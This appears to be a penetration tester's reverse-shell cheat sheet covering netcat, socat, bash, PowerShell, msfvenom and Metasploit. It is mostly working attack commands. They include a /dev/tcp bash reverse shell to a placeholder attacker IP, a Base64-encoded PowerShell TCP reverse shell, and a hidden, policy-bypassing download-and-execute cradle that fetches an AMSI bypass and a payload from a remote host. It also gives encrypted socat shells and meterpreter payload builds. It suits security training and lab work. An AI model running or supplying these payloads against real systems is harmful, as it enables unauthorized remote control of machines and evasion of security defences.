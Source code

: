 - N.b. many commands below are being run as `sudo` to make use of a port in the `0-1024` range, since root is needed to bind a listener to a port `<1024`. Beyond this range this is not necessary.

## NETCAT

### Flags:
- `-n` Skip DNS resolution
- `-v` Verbose
- `-l` Create listener
- `-p <port number>` To specify port number

Create Listener:
```bash
nc -nlvp <port to listen on>
```
Make Connection:
```bash
nc -nv <IP address> <port>
```
Listen For File Transfer:
```bash
nc -nlvp <port> > incoming
```
Send File:
```bash
nc -nv <IP address> <port> < file/to/transfer
```
Create Bind Shell Windows:
```bash
nc -nlvp <port> -e cmd.exe
```
Send Reverse Shell Linux:
```bash
cat /tmp/f | /bin/sh -i 2>&1 | nc -nl 127.0.0.1 4444 > /tmp/f
```

## OTHER

### Simple Reverse Shell Linux:

```bash
bash -c "bash -i >& /dev/tcp/<OurIP>/4444 0>&1"
```
When you inevitably need to URL encode (https://meyerweb.com/eric/tools/dencoder/):
```bash
bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F<OurIP>%2F4444%200%3E%261%22
```

### Powershell Reverse Shell (Base64 Encoded):

```powershell
pwsh
$Text = '$client = New-Object System.Net.Sockets.TCPClient("<attacker IP>",4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()'
$Bytes = [System.Text.Encoding]::Unicode.GetBytes($Text)
$EncodedText =[Convert]::ToBase64String($Bytes)
$EncodedText
```
And now all in one line:
```powershell
[Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes('$client = New-Object System.Net.Sockets.TCPClient("<attacker IP>",4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()'))
```
```bash
powershell -enc <our Base64 encoded Powershell revshell>
```

Alternatively, for increased subtlety consider making your payload staged, serve the payload above in `run.txt` (and go on bundle an AMSI bypass in there why not treat yourself?) then just Base64 encode the DownloadString section:

```powershell
pwsh> [Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes('iex (New-Object System.Net.WebClient).DownloadString("http://192.168.45.x/amsi.txt"); iex (New-Object System.Net.WebClient).DownloadString("http://192.168.45.x/run.txt")'))
```
Then `powershell.exe -w hidden -ep bypass -nop -enc asvawrbwvrs...`

### msfvenom

For when your existing shell is kinda shit, upgrade it to an msfvenom one: https://infinitelogins.com/2020/01/25/msfvenom-reverse-shell-payload-cheatsheet/
Linux:
```bash
msfvenom -p linux/x64/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x64.elf
```
Windows:
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x64.exe
```

## SOCAT

- N.b. Whenever we execute a shell we use `/bin/bash` if our target is a Linux machine, this must be substituted for `'cmd.exe', pipes` for Windows.

### Bind Shell

Set up our listener on the target, which will deliver a shell to anyone who tries to make a connection
```bash
sudo socat -d -d TCP4-LISTEN:443 EXEC:/bin/bash
```
Now just connect with the target
```bash
socat - TCP4:<target IP>:443
```

### Reverse Shell

Create listener on our machine
```bash
sudo socat -d -d TCP4-LISTEN:443 STDOUT
```
Send shell from target machine
```bash
socat TCP4:<attacker IP>:443 EXEC:/bin/bash
```

### File Transfer (Attacker to Target)

Prepare listener on source that will send the file to any machine that makes a connection
```bash
sudo socat TCP4-LISTEN:443,fork file:<filename>
```
Connect to source from target
```bash
socat TCP4:<IP address>:443 file:<received filename>,create
```

### Generate .pem

Generate certificate on target machine
```bash
openssl req -newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt
```
Create .pem from keyfile and certificate
```bash
cat shell.key shell.crt > shell.pem
```

### Encrypted Bind Shell

Begin listening for attempts to connect, and deliver a shell to anyone who tries
```bash
sudo socat OPENSSL-LISTEN:443,cert=shell.pem,verify=0,fork EXEC:/bin/bash
```
Connect like so
```bash
socat - OPENSSL:<target IP>:443,verify=0
```

### Encrypted Reverse Shell

Create listener on our machine
```bash
sudo socat -d -d OPENSSL-LISTEN:443,cert=shell.pem,verify=0,fork STDOUT
```
Send shell from target machine
```bash
socat TCP4:<attacker IP>:443, verify=0 EXEC:/bin/bash
```

## Staged Shells

Leverage `msfvenom` to create our staged payload
```bash
sudo msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.0.1 LPORT=443 -f exe -o msfstaged.exe
```
Now prepare the handler, not quite as simple as creating a netcat listener this time around!
```bash
sudo msfconsole -q
```
```bash
use multi/handler
```
```bash
set payload windows/x64/meterpreter/reverse_https
```
Unlike with a simple listener we're now creating a two stage payload, therefore weirdly the listener also has to have awareness of the attacker machine, since it is responsible for delivering a secondary payload into which this information will need to be fed.
```bash
set lhost 192.168.0.1
```
```bash
set lport 443
```
```bash
exploit
```
